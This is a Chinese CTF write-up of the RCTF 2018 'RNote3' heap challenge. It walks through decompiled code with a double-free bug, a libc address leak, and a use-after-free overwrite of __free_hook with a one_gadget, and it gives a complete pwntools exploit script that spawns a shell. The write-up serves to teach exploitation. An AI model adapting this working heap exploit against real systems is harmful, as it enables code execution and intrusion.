 # RNote3
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下我学习的**NBUSEC**队伍的[原wp](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/RNote3/rnote3_exploit.py)，我在这里解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题二进制程序保护全开，只有一个libc可以改写GOT，同样通过覆盖libc中的地址来getshell，跟babyheap一样，得到oneshot的地址**0x4526a**和__free_hook的地址**0x3c67a8**。接下来开始分析这个二进制程序：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>整个程序看上去无懈可击，但有一个隐秘的错误，就是一个函数中的ptr指针未初始化，连续调用这个函数的时候，由于ptr的垃圾数据还是上一次的，又可以继续free上次的note，也就是可以任意次数delete同一个note，再加上edit note的函数里的可以写入title的大小过大，最终导致被攻破：</font></br>

```C
__int64 del_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  void *ptr; // [sp+8h] [bp-18h]@0
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  printf("please input note title: ");
  get_input((__int64)&title, 8u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      ptr = (void *)link[i];
      break;
    }
  }
  if ( ptr )
  {
    free(*((void **)ptr + 2));
    free(ptr);
    link[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}


__int64 edit_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  __int64 the_chunk; // [sp+8h] [bp-18h]@1
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  the_chunk = 0LL;
  printf("please input note title: ");
  get_input((__int64)&title, 0x20u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      the_chunk = link[i];
      break;
    }
  }
  if ( the_chunk )
  {
    printf("please input new content: ");
    get_input(*(_QWORD *)(the_chunk + 16), *(_QWORD *)(the_chunk + 8));
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么接下来我们先泄露libc地址，如果不明白内存管理可以先看[这篇](https://paper.seebug.org/255/)，我们首先分配一个fastbin大小的堆块然后对其连续free两次，接下来分配的两个堆块（一个smallbin，如果是fastbin不会有fd泄露）就会**重叠在同一个地址**上，当对其中的一个smallbin进行free了之后，再view一下另一个堆块就可以查看到被free堆块的fd指针，从而泄露出libc基地址，偏移可以通过调试得到。</font></br>

```python
def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来就是use-after-free利用了，不太了解的可以看一下[这篇文章](https://blog.csdn.net/qq_31481187/article/details/73612451)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>use-after-free通常用来修改一些敏感数据或者地址指针，我们在这里修改堆块地址，将堆块地址修改到libc中的__free_hook处，然后就可以把这个的地址修改为oneshot的地址然后getshell了：</font></br>

```python
delete_note('d' * 8)
#返回了原先'd'*8 title的第一个堆块和smallbin的一个堆块，这个时候出现了偏差。
add_note('e' * 8, 256, 'e' * 256)
#这里申请'f'*8的title的时候返回了上一个'd'堆块的content块，然后申请'f'堆块的content的堆块时
#malloc返回了上一个'c'堆块的title块，这时候从content写入数据的时候相当于从title开始写入，
#可以修改title，size，和其content堆块的地址，在这里把content堆块的地址到libc的__free_hook处。
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终脚本如下：</font></br>

Exploit脚本:
=======

```python
from pwn import *

oneshot=0x4526A
freehook=0x3c67a8

DEBUG = 1

if DEBUG == 1:
  p=process('./RNote3')
  context(log_level='debug')
  gdb.attach(p)
else:
  p=remote('rnote3.2018.teamrois.cn',7322)

def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))

delete_note('d' * 8)
add_note('e' * 8, 256, 'e' * 256)
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```
